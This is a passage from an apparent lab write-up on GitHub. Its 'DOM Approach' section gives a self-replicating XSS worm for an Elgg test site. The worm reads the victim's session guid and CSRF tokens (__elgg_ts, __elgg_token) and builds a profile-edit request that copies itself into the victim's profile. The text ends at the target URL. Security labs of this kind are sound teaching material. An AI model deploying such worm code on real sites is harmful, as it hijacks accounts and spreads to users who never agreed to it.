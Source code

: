 <h2 dir="auto"><a id="user-content-dom-approach" class="anchor" aria-hidden="true" href="#dom-approach"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>DOM Approach</h2>
<p dir="auto">Do some subtle modification based on the code in <a href="#task-5">Task 5</a>:</p>
<div class="highlight highlight-text-html-basic position-relative overflow-auto"><pre><span class="pl-kos">&lt;</span><span class="pl-ent">script</span> <span class="pl-c1">type</span>="<span class="pl-s">text/javascript</span>" <span class="pl-c1">id</span>="<span class="pl-s">worm</span>"<span class="pl-kos">&gt;</span>
  <span class="pl-smi">window</span><span class="pl-kos">.</span><span class="pl-en">onload</span> <span class="pl-c1">=</span> <span class="pl-k">function</span> <span class="pl-kos">(</span><span class="pl-kos">)</span> <span class="pl-kos">{</span>
    <span class="pl-k">var</span> <span class="pl-s1">headerTag</span> <span class="pl-c1">=</span> <span class="pl-s">'&lt;script id="worm" type="text/javascript"&gt;'</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">jsCode</span> <span class="pl-c1">=</span> <span class="pl-smi">document</span><span class="pl-kos">.</span><span class="pl-en">getElementById</span><span class="pl-kos">(</span><span class="pl-s">"worm"</span><span class="pl-kos">)</span><span class="pl-kos">.</span><span class="pl-c1">innerHTML</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">tailTag</span> <span class="pl-c1">=</span> <span class="pl-s">"&lt;/"</span> <span class="pl-c1">+</span> <span class="pl-s">"script&gt;"</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">wormCode</span> <span class="pl-c1">=</span> <span class="pl-en">encodeURIComponent</span><span class="pl-kos">(</span><span class="pl-s1">headerTag</span> <span class="pl-c1">+</span> <span class="pl-s1">jsCode</span> <span class="pl-c1">+</span> <span class="pl-s1">tailTag</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
    <span class="pl-c">//JavaScript code to access user name, user guid, Time Stamp __elgg_ts</span>
    <span class="pl-c">//and Security Token __elgg_token</span>

    <span class="pl-k">var</span> <span class="pl-s1">userName</span> <span class="pl-c1">=</span> <span class="pl-s">"&amp;name="</span> <span class="pl-c1">+</span> <span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">session</span><span class="pl-kos">.</span><span class="pl-c1">user</span><span class="pl-kos">.</span><span class="pl-c1">name</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">guid</span> <span class="pl-c1">=</span> <span class="pl-s">"&amp;guid="</span> <span class="pl-c1">+</span> <span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">session</span><span class="pl-kos">.</span><span class="pl-c1">user</span><span class="pl-kos">.</span><span class="pl-c1">guid</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">ts</span> <span class="pl-c1">=</span> <span class="pl-s">"&amp;__elgg_ts="</span> <span class="pl-c1">+</span> <span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">security</span><span class="pl-kos">.</span><span class="pl-c1">token</span><span class="pl-kos">.</span><span class="pl-c1">__elgg_ts</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">token</span> <span class="pl-c1">=</span> <span class="pl-s">"&amp;__elgg_token="</span> <span class="pl-c1">+</span> <span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">security</span><span class="pl-kos">.</span><span class="pl-c1">token</span><span class="pl-kos">.</span><span class="pl-c1">__elgg_token</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">description</span> <span class="pl-c1">=</span>
      <span class="pl-s">"&amp;description=&lt;p&gt;modified by Samy&lt;p&gt;"</span> <span class="pl-c1">+</span>
      <span class="pl-s1">wormCode</span> <span class="pl-c1">+</span>
      <span class="pl-s">"&amp;accesslevel[description]=2"</span><span class="pl-kos">;</span>
    <span class="pl-c">//Construct the content of your url.</span>
    <span class="pl-k">var</span> <span class="pl-s1">sendurl</span> <span class="pl-c1">=</span> <span class="pl-s">"http://www.xsslabelgg.com/action/profile/edit"</span><span class="pl-kos">;</span>